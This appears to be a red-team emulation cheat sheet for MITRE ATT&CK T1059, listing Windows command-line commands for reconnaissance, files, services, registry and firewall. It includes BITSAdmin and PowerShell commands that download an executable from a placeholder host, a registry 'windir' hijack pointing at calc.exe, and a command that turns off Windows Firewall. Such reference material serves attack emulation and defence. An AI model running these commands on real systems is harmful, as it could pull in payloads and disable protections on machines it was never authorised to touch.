 # Command-Line Interface

---
* **ID**: T1059
* **Source**: <https://attack.mitre.org/techniques/T1059/>
---

# Details

## Common commands in Windows CLI
### System Information
* Check system info: `systeminfo`
* Check IP info: `ipconfig /all`
* Check current user: `whoami`
* Check host name: `hostname`
* Check local users: `net user`
* Check local groups: `net localgroup`
* Check all the networked devices: `net view`
* Check local shares: `net share`
* Check process info: `tasklist`

### File
* Search local files: `cd c:\ && dir /b /s <file_name>`
* Check file content: `type <file_path>`
* Download a remote file:
  * BITSAdmin: `bitsadmin.exe /transfer txt /download /priority normal http://example.com/example.exe %ALLUSERSPROFILE%\example.exe`
  * PowerShell: `powershell Invoke-WebRequest -Uri "http://example.com/example.exe" -OutFile %ALLUSERSPROFILE%\example.exe`

### Service
* Create a service: `sc create ExampleService binPath= "F:\Delete\SampleSolution\Sample\WindowsServiceExample\bin\Debug\WindowsServiceExample.exe"`
* Start a service: `sc start ExampleService`
* Stop a service: `sc stop ExampleService`
* Delete a service: `sc delete ExampleService`

### Scheduled Task
* Create/run/delete a scheduled task: see [Scheduled Task](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1053/T1053.md)

### Registry
* Add a registry key: `reg add HKCU\Environment /v windir /d "calc.exe" /f`
* Delete a registry key: `reg delete HKCU\Environment /v windir /f`

### Firewall
* Check the status of Windows Firewall: `netsh advfirewall show allprofiles`
* Turn on Windows Firewall: `netsh advfirewall set allprofiles state on`
* Turn off Windows Firewall: `netsh advfirewall set allprofiles state off`

# References

* <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1053/T1053.md>
